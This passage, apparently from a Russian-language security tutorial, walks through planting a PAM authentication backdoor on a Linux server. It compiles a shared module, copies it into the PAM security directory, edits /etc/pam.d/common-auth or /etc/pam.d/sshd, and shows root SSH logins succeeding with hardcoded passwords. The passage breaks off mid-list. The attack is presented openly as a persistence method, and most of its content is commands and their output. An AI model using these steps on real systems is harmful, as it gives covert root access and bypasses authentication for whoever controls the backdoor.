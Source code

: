 ```
apt install libpam0g-devgcc -fPIC -c -o test.o test.cgcc -shared -o test.so test.o
```

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/4ce/d4c/bf8/4ced4cbf86f4e81d5c1b239187c2a173.png)

Переместим к другим файлам:

`mv test.so /lib/x86_64-linux-gnu/security/`

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/e4d/538/e20/e4d538e20c2cfa3d7cc93ed25826e264.png)

Теперь давайте подключим наш модуль для авторизации с помощью SSH

Просмотрим содержимое файла `/etc/pam.d/sshd`

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/3ec/fd5/2f5/3ecfd52f53421d888ac3e230a321e900.png)

В самом начале видим подключение common-auth, которое нужно будет изменить.

> Раньше логика взаимодействия была указана отдельно в каждом конфигурационном файле сервиса, то сейчас в новых версиях Linux используется подключение конфигурационных файлов _/etc/pam.d/common-account_, _/etc/pam.d/common-auth_ и тд, которые используются в конфигурации **pamd** других сервисов.

Это даёт нам возможность изменить всего лишь common-auth, при этом закрепившись в ssh, su и т.д.

Давайте так и поступим:

`nano /etc/pam.d/common-auth`

Было:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/1a1/745/9b4/1a17459b4166d8ae74168f16cd7ecd9c.png)

Стало:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/cf3/aa5/285/cf3aa5285ff814e4e373b95eb9368f57.png)

`systemctl restart ssh`

Пробуем подключиться:

```
ssh root@192.168.56.102password: kalisuccessssh root@192.168.56.102password: byesuccess
```

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/a6b/00b/7ab/a6b00b7abf7bd14dc6fbffce1a66a596.png)

**Однако, если вы, по-прежнему, хотите установить бэкдур только для SSH, то можете изменить /etc/pam.d/sshd следующим образом:**

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/d16/0d7/484/d160d74849b009e328f9077e593da467.png)

Здесь мы взяли `auth sufficient pam_unix.so nullok` из `/etc/pam.d/common-auth`, чтобы не приходилось изменять и его.

Проверка:

• Для пароля `bye`:
